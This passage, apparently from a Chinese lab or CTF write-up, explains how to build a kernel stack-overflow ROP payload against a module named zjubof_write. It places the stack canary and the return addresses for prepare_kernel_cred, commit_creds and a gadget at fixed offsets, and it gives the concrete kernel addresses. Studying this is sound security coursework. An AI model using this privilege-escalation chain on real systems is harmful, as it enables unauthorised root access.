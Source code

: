3. 构造buffer如下

```c
buf.length = 160 + 1 (160 B + '\0')
buf[24 ... 30] = canary
buf[40 ... 48] = RA of prepare_kernel_cred
buf[72 ... 80] = RA of commit_creds
buf[104 ... 112] = RA of second_level_gadget
buf[152 ... 160] = RA of zjubof_write
```

各个ROP的跳转地址分别为：

RA of prepare_kernel_cred: 0xffff8000100a6214

![image 9](image-20230530014732806.png)

RA of commit_creds: 0xffff8000100a5f6c

![image 10](image-20230530014820517.png)

RA of second_level_gadget: 0xffff8000107abdb0（因为第一条指令不改变sp，因此可以直接跳 ）

![image 11](image-20230530014929574.png)
